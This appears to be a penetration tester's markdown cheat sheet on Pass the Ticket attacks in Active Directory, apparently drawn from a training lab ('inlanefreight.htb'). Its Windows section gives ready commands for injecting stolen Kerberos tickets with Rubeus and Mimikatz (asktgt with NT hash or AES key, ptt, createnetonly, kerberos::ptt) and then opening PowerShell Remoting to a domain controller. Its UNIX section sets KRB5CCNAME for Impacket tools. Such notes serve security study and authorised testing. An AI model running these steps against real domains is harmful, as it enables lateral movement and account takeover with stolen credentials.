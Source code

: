 # Pass the Ticket (PtT) 
- https://lisandre.com/archives/14885
- https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/pass-the-ticket
- https://www.thehacker.recipes/ad/movement/kerberos/ptt
- https://www.thehacker.recipes/ad/movement/kerberos/ptt

## Theory
Another method for moving laterally in an Active Directory environment is called a Pass the Ticket (PtT) attack. In this attack, we use a stolen Kerberos ticket to move laterally instead of an NTLM password hash.

There are ways to come across (cached Kerberos tickets) or forge (overpass the hash, silver ticket and golden ticket attacks) Kerberos tickets. A ticket can then be used to authenticate to a system using Kerberos without knowing any password. This is called Pass the ticket. Another name for this is Pass the Cache (when using tickets from, or found on, UNIX-like systems).

## Practive 

> [!TIP] convert tickets UNIX <-> Windows
>
> Using [ticketConverter.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketConverter.py) we can convert kirbi files to ccache and vice-versa.
>
> ```bash
> ticketConverter.py <kirbi||ccache> <kirbi||ccache>
> ```

### Injecting the ticket
- On Windows systems, tools like [Mimikatz](https://github.com/gentilkiwi/mimikatz) and [Rubeus](https://github.com/GhostPack/Rubeus) can inject the ticket in memory. Native Microsoft tools can then use the ticket just like usual.
- On UNIX-like systems, the path to the .ccache ticket to use has to be referenced in the environment variable KRB5CCNAME

::: tabs

=== Windows
    
The most simple way of injecting the ticket is to supply the /ptt flag directly to the command used to request/create when [Passing the Key or OverPassing the Hash](#). Bothmimikatz and Rubeus accept this flag.

Another way is to import the ticket into the current session using the .kirbi file from the disk. Let's use a ticket exported from Mimikatz and import it.

Using Rubeus, we can perform a Pass the Ticket providing the base64 string instead of the file name.

To create a PowerShell Remoting session on a remote computer, you must have administrative permissions, be a member of the RemoteManagement  Users group, or have explicitPowerShell Remoting permissions in your session configuration.

Rubeus

```powershell
# Pass the Ticket 
> Rubeus.exe asktgt /domain:$DOMAIN /user:$USER /rc4:$NThash /ptt

# Pass the Ticket using kirbi 
> Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi
```
        
We can also use the base64 output from Rubeus or convert a .kirbi to base64 to perform the Pass the Ticket attack. We can use PowerShell to convert a .kirbi to base64.

```powershell
# Convert .kirbi to Base64 Format
PS > [Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"))

# Inject Base64 Format
> Rubeus.exe ptt /ticket:$base64
```

Rubeus has the option createnetonly, which creates a sacrificial process/logon session (Logon type 9). The process is hidden by default, but we can specify the flag /show to display the process, and the result is the equivalent of runas /netonly. This prevents the erasure of existing TGTs for the current logon session.

```powershell
# Create a Sacrificial Process
> Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
```

The above command will open a new cmd window. From that window, we can execute Rubeus to request a new TGT with the option /ptt to import the ticket into our current session and connect to the DC using PowerShell Remoting.

```powershell
> Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /ptt
> powershell
> Enter-PSSession -ComputerName DC01
 ```

Note that now it displays Ticket successfully imported!.
    
    

    
Finally, we can also perform the Pass the Ticket attack using the Mimikatz module kerberos::ptt and the .kirbi file that contains the ticket we want to import.

```powershell
# Using kirbi
> mimikatz.exe 
> privilege::debug
> kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"
> exit
```

To use PowerShell Remoting with Pass the Ticket, we can use Mimikatz to import our ticket and then open a PowerShell console and connect to the target machine.

```powershell
# Powershell Remoting
> mimikatz.exe
> privilege::debug
> kerberos::ptt "C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"
> exit
> powershell
```

!!! Tip
    Instead of opening mimikatz.exe with cmd.exe and exiting to get the ticket into the current command prompt, we can use the Mimikatz module misc to launch a new command prompt window with the imported ticket using the `misc::cmd command.`

!!! Info
    dir \\DC01.inlanefreight.htb\c$    
    
!!! Tip
    It is then possible to list the tickets in memory using the `klist` command.



=== UNIX-like
### Using Impacket Tools
With ccache file obtained Passing the Key or Overpassing the Hash, to execute for example impacket tools, the ccache file needs to be exported to environment variable.

```bash
$ export KRB5CCNAME=<path_to_ticket>.ccache
```
:::